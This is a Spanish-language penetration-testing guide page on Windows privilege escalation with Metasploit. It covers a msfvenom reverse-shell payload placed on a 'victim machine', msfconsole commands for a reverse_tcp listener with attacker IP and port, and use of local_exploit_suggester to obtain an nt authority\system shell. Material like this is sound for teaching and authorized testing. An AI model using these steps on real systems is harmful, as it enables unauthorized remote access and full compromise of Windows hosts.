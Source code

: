# 🪟 Windows

## Metasploit + Msfvenom&#x20;

Podemos escalar privilegios con metasploit en windows. En primer lugar deberemos de generar un payload con msfvenom ( [#reverse-shell-tcp-con-exe](../explotacion/msfvenom.md#reverse-shell-tcp-con-exe "mention")) y pasarlo a nuestra maquina victima.

Después desde la maquina atacante, nos ponemos a la escucha con metasploit a través de multi/handler. Deberemos de ejecutar los siguientes comandos:

{% hint style="warning" %}
Los valores de los comandos de Metasploit deben ser lo mismos con los que se ha generado el payload en msfvenom (.exe) que está en la maquina victima
{% endhint %}

```bash
msfconsole

use /multi/handler

set LHOST 192.168.1.12    # IP Maquina atacante

set LPORT 4444 # Debe ser el mismo puerto que el que hemos puesto en el payload de msfvenom

set PAYLOAD windows/meterpreter/reverse_tcp # Debe ser el mismo que el que hemos puesto en el payload de msfvenom

run
```

Ahora ejecutamos el payload en la maquina victima y obtenemos una sesión de meterpreter:

<figure><img src="../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

Una vez en la sesión de meterpreter (NO EN LA CMD DE WINDOWS), ponemos "`background`" y "`search local_exploit_suggester`":

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Esta opción nos dará el exploit más adecuado para la escalada, lo seleccionamos "`use 0`" y miramos las opciones que tiene. En este caso, nos pide el ID de la sesión de meterpreter:

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Ponemos el ID de la sesión (lo puedes averiguar con el comando "`sessions -l`"). Ejecutamos:

<figure><img src="../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Ahora, nos aparecerá una lista en colores verde y rojo. Los payloads de color rojo deberemos de omitirlos y centrarnos en los de verde.

<figure><img src="../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

Cualquiera de estos podría funcionar (no está asegurado), usamos uno de ellos seleccionándolo:

<figure><img src="../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

Ahora, ajustamos los valores necesarios ("`show options`"). Si el modulo funciona obtendremos una sesión de meterpreter en la que podremos abrir una shell ("`shell`") como `nt authority\system`. En el caso de que no funcione volvemos atrás ("`back`") y probamos con otro
